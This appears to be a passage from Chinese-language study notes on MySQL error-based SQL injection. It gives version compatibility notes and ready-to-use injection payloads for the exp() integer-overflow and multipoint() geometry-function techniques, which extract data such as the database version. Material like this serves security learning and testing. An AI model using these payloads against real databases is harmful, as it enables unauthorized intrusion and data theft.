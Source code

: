 ###### ②整形溢出

* **exp**
* mysql低于5.5.5，5.7.9成功，8.0失败
* exp是以e为底的指数函数，由于数字太大会溢出，该函数会在参数大于709时溢出，产生报错
* 标准payload

```
1' and exp (~(select * from(select version())a)) --+		//只有mysql5.5.29才能正常显示
```

<img src="../../images/8-20-morning/整形溢出报错注入.png" alt="整形溢出报错注入" style="zoom:67%;" />

###### ③几何函数

* mysql版本属于[5.5.49,~]

* 高版本mysql无法得到数据，目前只有**mysql5.5.29、5.1.60**能得到**正确输出**

* geometrycollection()、**multipoint()**、polygon()、multipolygon()、linestring()、multilinestring()

* 标准payload

  ```
  1' and 
      (select multipoint(
          (select * from 
              (select * from 
                  (select * from
                      (select version())a
                  )b
               )c
      	)
      )
  ) -- qwe		
  ```

<img src="../../images/8-20-morning/几何函数报错注入.png" alt="几何函数报错注入" style="zoom:67%;" />
